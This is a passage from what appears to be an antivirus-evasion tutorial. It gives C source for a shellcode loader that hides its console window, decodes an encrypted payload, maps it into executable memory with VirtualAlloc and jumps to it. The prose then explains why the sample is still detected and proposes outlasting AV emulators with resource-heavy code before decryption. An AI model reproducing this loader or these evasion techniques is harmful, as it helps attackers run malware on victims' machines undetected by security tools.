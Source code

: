 ```c
    return b2;
}

char *string_malloc(size_t size)
{
    char *str = (char*)malloc(size); 
    if (str == NULL)
    {
        fprintf(stderr, "out of memory"); 
        exit(EXIT_FAILURE); 
    }
    for (size_t i = 0; i < size; i++)
    {
        str[i] = '\0';
    }
    return str;
}


int main(int argc, char** argv)
{
    HWND hWnd = GetConsoleWindow();
    ShowWindow(hWnd, SW_HIDE);
    size_t len = strlen(code);
    char* hex = (char*)string_malloc(len * sizeof(code));
    memcpy(hex, code, len);
    char* hexfromchr = operation(hex, len);

    unsigned char* chr = hexTochar(hexfromchr);
    free(hexfromchr);

    void* exec = VirtualAlloc(0, strlen((char*)chr), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, chr, strlen((char*)chr)-1);
    ((void(*)())exec)();
    return 0;
}
```


<p align="justify">
After running the program and checking the results from Antivirus software, we see that it has identified our executable as malicious again.. But.. what happened here ? We have encrypted our shellcode, and this shouldn't happen, right ? Well, not exactly.. As said before, modern antivirus engines are not relying only to static code analysis techniques, they also executing the malware sample in a sandbox, in order to dynamically observe its behaviour. At this point we should try harder and figure out how to avoid detection providing additional evasion techniques.
</p>

<p align="justify">
Evading security protections sometimes is not an easy task, but with some research and smart moves, some protections can be bypassed. Furthermore, one fact that someone should be aware when it comes to AV evasion, is to think how these engines work most of the times. A common limitation regarding the AV scanner is the amount of time it can spend on each file. During a regular system scan, the AV will have to analyze thousands of files. It just cannot spend too much time or power on a peculiar one (it could also lead to a form of Denial Of Service attack on the AV). The simplest method to bypass AV just consists into buying enough time before the code is decrypted. Unfortunately a simple 'Sleep' won’t do the trick, cause AV emulator have adapted to that. Moreover, in order to achieve bypassing the AV engine, we need to impose the AV to go through some code which consume too much resources, thus we are sure the AV will abandon before the real code is started.
